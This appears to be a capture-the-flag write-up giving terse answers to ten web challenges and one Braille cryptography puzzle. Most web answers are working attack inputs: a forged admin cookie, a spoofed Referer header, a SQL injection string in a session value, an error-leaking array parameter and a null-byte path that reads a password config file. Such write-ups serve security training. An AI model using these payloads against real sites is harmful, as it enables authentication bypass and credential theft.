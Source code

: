 #### Cryptography 25

**Braille Alphabet**

##WEB Based

#### Web 1

    Page=Admin

#### Web 2

``` javascript 
    // javascript
    document.cookie='isAdmin=1';
```

#### Web 3

    /robots.txt

#### Web 4

``` bash 
    curl -H 'Referer: www.google.com' 'http://theurl/Content/Challenges/Web/Web4.php'
```

#### Web 5

Do not waste time on the form because nothing happend when you click the button.

    SESSION=abf3e2d32ec32' or '1'='1' --

#### Web 6

look around http://theurl/Content/Challenges/Web/Files6/

#### Web 7

    curl -d 'Type=admin' 'http://theurl/Content/Challenges/Web/Web7.php'
    
#### Web 8

    Page[]=Home 
    
will trigger a php `fatal error`, which will display the error stack including the full path of the file in the page.

#### Web 9

    File=Files9/passconfigs.php%00

#### Web 10

``` bash 
    curl 'http://theurl/Content/Challenges/Web/Web10.php'
```   

## Microhard 
